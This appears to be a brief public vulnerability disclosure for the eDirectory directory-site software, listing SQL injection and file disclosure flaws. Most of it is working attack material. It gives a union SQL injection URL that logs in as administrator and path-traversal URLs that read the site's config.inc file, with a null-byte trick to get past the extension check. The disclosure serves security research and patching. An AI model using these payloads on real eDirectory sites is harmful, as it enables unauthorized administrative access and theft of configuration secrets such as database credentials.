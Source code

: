 # eDirectory Multiple Vulnerabilities

Author: Efren Diaz @elefr3n

Vendor: https://www.edirectory.com/

Reported: ago/sep 2018 (without response :D)

Software Description: eDirectory is a software to create your own membership website, business directories, yellow pages, coupon sites, local guide, lead gen sites and more.

Version: All

## SQLi
Union SQLi:
```
http://site.com/location.php?type=byId&id=[INT]&childLevel=[INT]&level=[SQLi]
http://site.com/sitemgr/login.php?key=[SQLi]
```

## SQLi to login bypass
Sometimes returns "Invalid key error", then press F5 and you will logged as an administrator :)
```
http://site.com/sitemgr/login.php?key=' union select 0,1,0,'sitemgr' -- -
```

# Authenticated File Dissclosure
Only files with .php extension, but don't forget try nullbyte to avoid that :D
```
http://site.com/sitemgr/langcenter/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
http://site.com/sitemgr/configuration/geography/language/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
```
